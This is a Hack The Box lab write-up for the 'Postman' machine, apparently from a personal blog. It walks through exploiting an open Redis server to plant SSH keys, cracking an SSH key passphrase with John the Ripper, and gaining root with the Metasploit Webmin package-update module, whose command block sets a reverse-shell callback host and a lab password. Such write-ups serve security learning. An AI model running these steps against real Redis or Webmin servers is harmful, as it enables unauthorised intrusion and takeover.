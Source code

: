 ```yaml
---
layout: single
title: Postman Writeup
date: '2020-04-30 15:32:00'
tags:
- hack-the-box
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-04-30-postman-writeup/postman_logo.png
    text: "https://app.hackthebox.eu/machines/215"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```


A fairly straight forward easy box that nevertheless taught me something new…

## Enumeration

Starting with the usual Autorecon we turn up the following open ports:

- 22 - running SSH as expected
- 80 - running Apache and a pretty blank site
- 10,000 - running Webmin over SSL
- 6379 - running Redis

I had a quick look at the site on port 80, but this seemed to be a fairly empty site with no way of submitting information and nothing in the source, so I moved on. SSH wasn't doing anything crazy, so I looked at Webmin.

Webmin was more interesting, as looking at the Nikto output for port 10,000 we can see the server version is reported as `MiniServ/1.91`  
This relates to the version of Webmin and a search on [ExploitDB](https://www.exploit-db.com/) shows a few possible exploits for this version. One relates to a backdoor that was inserted that allows Remote Code Execution via the password change feature, but in this instance that feature was disabled and so this could not be exploited. Another vulnerability involves the package update command, but this required a login.

I moved on to look at Redis at this point. I connected to the server using `redis-cli -h 10.10.10.160 -p 6379` and using `KEYS *` determined that database was empty. I had a recollection that Redis could be exploited to upload SSH keys and found the following [article](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)which suggested it was indeed possible.

## Initial Exploitation

Having found a possible way in using Redis I did some more hunting and found a Python [script](https://github.com/Avinash-acid/Redis-Server-Exploit) that automated the steps. Saving this as `exploit.py` and running it as `./exploit.py 10.10.10.160 redis` (where redis is the user the Redis server is running as) got me a shell via SSH as the redis user. However, the user.txt file was in /home/Matt so we had some more work to do.

## Lateral movement

Have a quick look around the redis account and what I could see in the home directory of Matt didn't show anything too useful, and usual tricks such as checking sudo access with `sudo -l` didn't show anything special privileges. To speed things up I copied [LinEnum](https://github.com/rebootuser/LinEnum) across to the server and let it loose. This turned up an interesting .bak file, `/opt/id_rsa.bak` which sounds like an SSH private key file.

![Annotation-2019-12-02-113254](../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254.png)

If we try and use this file using `ssh -i` to connect via SSH as the Matt account we get prompted for a password.

Next, I used `scp` to copy this file to my Kali box and then used `/usr/share/john/ssh2john.py id_rsa.matt > matt.key` to convert the file to format that John the Ripper can understand. I then kicked off John using the usual Rockyou wordlist which found a hit very quickly.

![Annotation-2019-12-02-113254_2](../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254_2.png)

I then tried to login via SSH as Matt but got `Connection Closed` after I successfully authenticated. Using my redis SSH session I looked at the `/etc/ssh/sshd_config` and found that Matt had specifically been blocked from using SSH.

I then tried `su Matt` while logged in as redis user which worked and I could then read the `user.txt` file.

![Annotation-2019-12-02-113254_3](../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254_3.png)

## Getting root

Given we now have the username and password of Matt I tried logging into Webmin using these and found they worked. Matt only seemed to have access to do Package Updates, but earlier we found a exploit for a vulnerabily in this area. The exploit was in the form of a Metasploit module, and while I usually recode these to do the exploit manually, I decided to be lazy and just use Metasploit.

After starting msfconsole I used:
```bash
    use exploit/linux/http/webmin_packageup_rce
    set RHOST 10.10.10.160
    set LHOST 10.10.14.5
    set USERNAME Matt
    set PASSWORD computer2008
    set SSL true
    exploit
```
This then gives us a root shell

![Annotation-2019-12-02-113254_4](../images/posts/2020/2020-04-30-postman-writeup/Annotation-2019-12-02-113254_4.png)